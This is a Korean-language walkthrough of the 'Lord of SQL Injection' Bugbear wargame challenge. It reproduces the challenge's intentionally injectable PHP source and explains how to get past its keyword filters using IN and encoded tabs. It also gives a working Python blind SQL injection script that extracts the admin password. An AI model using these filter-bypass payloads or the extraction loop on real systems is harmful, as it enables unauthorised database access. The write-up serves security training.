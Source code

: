 ## Lord of SQL Injection No. 13 - Bugbear
## 문제 출제 의도
1. like 문 없이 대입 연산자를 우회 가능한지 확인.
2. 
## 소스 코드
~~~ 
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
    $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - Get 방식으로 받은 no값에 prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 no값에 (single quote),substr,ascii,=(대입연산자),or,and중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 pw값에 (single quote)가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
- 풀이 성공 조건
    * 입력한 pw값과 실제 pw값이 일치해야 한다.
## 문제 해결
0. 우회 기법
    - IN
        * IN 구문은 다음과 같은 형식을 취한다.
        ~~~
        WHERE column_name IN (value1,value2,...)
        ~~~
        * 즉 대입연산자의 대체가 가능하다.
1. Blind SQL Injection
    - 다음과 유사한 방법으로 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
            data = '1||id%09IN%09("admin")%26%26mid(pw,1,{})%09IN%09("{}")%23'.format(str(i), key + chr(j))
            print(data)
            # no=1||id%09IN%09("admin")%26%26MID(pw,1,1)%09IN%09("7")%09--%09-
            # data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=lu2qch32sh6s8s57djgjra3hs3")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이는 "735c2773"를 출력한다.
    - 이를 GET방식으로 pw에 입력하면 문제가 해결된다.